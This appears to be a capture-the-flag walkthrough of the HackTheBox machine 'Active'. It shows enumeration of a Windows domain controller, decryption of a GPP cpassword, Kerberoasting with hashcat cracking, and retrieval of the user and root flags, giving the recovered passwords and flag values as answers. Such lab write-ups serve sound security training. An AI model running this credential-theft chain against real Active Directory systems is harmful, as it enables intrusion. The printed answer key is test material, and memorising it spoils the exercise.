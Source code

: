 # HackTheBox Walkthrough - Active

**Machine Name**: Active  
**Target IP**: 10.129.225.44  
**Operating System**: Windows  
**Difficulty**: Easy  

---

## 🧭 Enumeration

### 🔍 Port Scan

```bash
nmap -Pn -n --open -p- --max-retries 1 --min-rate 2000 10.129.225.44
nmap -sV -sC -oA nmap/Active -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49162,49166,49168 10.129.225.44
```

### 🔐 SMB Shares

```bash
smbclient -L //10.129.225.44 -N
```

**Shares Found**:
- ADMIN$
- C$
- IPC$
- NETLOGON
- Replication
- SYSVOL
- Users

🟢 **Answer: 7**

---

## 📁 Anonymous Share Access

Accessible share: `Replication`  
🟢 **Answer: Replication**

---

## 🔎 Credentials Discovery

From `Groups.xml`:
```xml
<User name="active.htb\SVC_TGS" ... cpassword="edBSHOwhZLTjt/...">
```

Decrypted with `gpp-decrypt`:
```bash
gpp-decrypt 'edBSHOwhZLTjt/...'
```

🟢 **Answer: GPPstillStandingStrong2k18**

---

## 🧑‍💻 User Flag Access

```bash
smbclient -U 'ACTIVE\SVC_TGS' //10.129.225.44/Users
smb: \SVC_TGS\Desktop\> get user.txt
```

🟢 **Flag**: `2b1315e704553f8423562cb29ed99ea1`

---

## 🦞 Kerberoasting

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.225.44
```

Vulnerable account: `Administrator`  
🟢 **Answer: Administrator**

---

## 🔓 Cracking TGS Hash

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.225.44 -request
# Save TGS hash and run:
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt --force
```

🟢 **Password**: `Ticketmaster1968`

---

## 👑 Root Flag

```bash
smbclient -U 'ACTIVE\Administrator' //10.129.225.44/Users
smb: \Administrator\Desktop\> get root.txt
```

🟢 **Flag**: `1fdde5163e1c0ee88a54fa5facb901a1`
